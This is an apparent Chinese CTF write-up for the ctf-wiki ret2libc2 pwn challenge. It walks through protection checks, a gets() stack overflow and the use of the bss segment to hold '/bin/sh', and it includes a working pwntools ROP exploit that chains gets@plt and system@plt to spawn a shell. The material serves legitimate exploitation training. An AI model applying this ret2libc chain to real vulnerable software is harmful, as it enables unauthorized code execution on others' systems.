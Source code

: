 > 参考资料：[https://wiki.x10sec.org/pwn/stackoverflow/basic_rop/#2](https://wiki.x10sec.org/pwn/stackoverflow/basic_rop/#2)
>
> 示例文件：[https://github.com/ctf-wiki/ctf-challenges/blob/master/pwn/stackoverflow/ret2libc/ret2libc2](https://github.com/ctf-wiki/ctf-challenges/blob/master/pwn/stackoverflow/ret2libc/ret2libc2/)
>

将文件下载下来，检查一下文件的保护

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596684661609-9b07bc0a-6580-45f2-ad69-fea776a5f19b.png)

拖入IDA中，查看一下代码：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596684714006-50b5b74e-8b28-4a71-b231-b4660f264b4c.png)

发现危险栈溢出函数gets，同时在secure()函数中发现了system函数

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596684813763-cd3575fa-eafb-4ccf-868e-2b93edc30fce.png)

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596684836151-12df2042-95e0-44d2-983a-4b9552356bf4.png)

但是并没有找到"/bin/sh"的字样，但是我们在bss段找到了一些可以利用的空间

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596685004938-d2beeefc-d1fc-459c-a4bc-3ca75af23bbc.png)

我们可以在这个空间里写入“/bin/sh”

> 注意：由于程序开了NX保护，所以不可以向栈内写入内容
>

使用cycilc命令可以测出程序的栈偏移为112（省略此处的详细步骤）****

exp如下：

```python
from pwn import *
bss_addr = 0x0804A080
gets_plt = 0x08048460
sys_plt  = 0x08048490

io=process('./ret2libc2')
io.recvuntil('What do you think ?')
payload = 'A'*112 + p32(gets_plt) + p32(sys_plt) + p32(bss_addr)+p32(bss_addr)
io.sendline(payload)
io.sendline('/bin/sh')
io.interactive()
```

payload解读：

首先使用112个A字符填充栈，使栈发生溢出，再用gets函数的plt地址来覆盖原返回地址，使程序流执行到gets函数，参数就是bss段的地址（bss段的变量），目的是为了使用gets函数将/bin/sh 写入到bss段中。接下来在使用systm函数覆盖gets函数的返回地址，使程序执行到system函数，其参数也是bss段中的内容，也就是/bin/sh。最后的io.sendline('/bin/sh')是为了将bss段上变量的内容替换成/bin/sh（也就是说在执行sendline('/bin/sh')之前，bss段上的变量未被初始化，其内容为空）。

> payload中第一个p32(bss_addr)是gets函数的参数，第二个是system的参数
>

> **<font style="color:#F5222D;">注：程序的走向是由栈来决定的</font>**
>

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596772127430-47ff3fac-e16a-4d38-b1e6-544f260d127d.png)

getshell

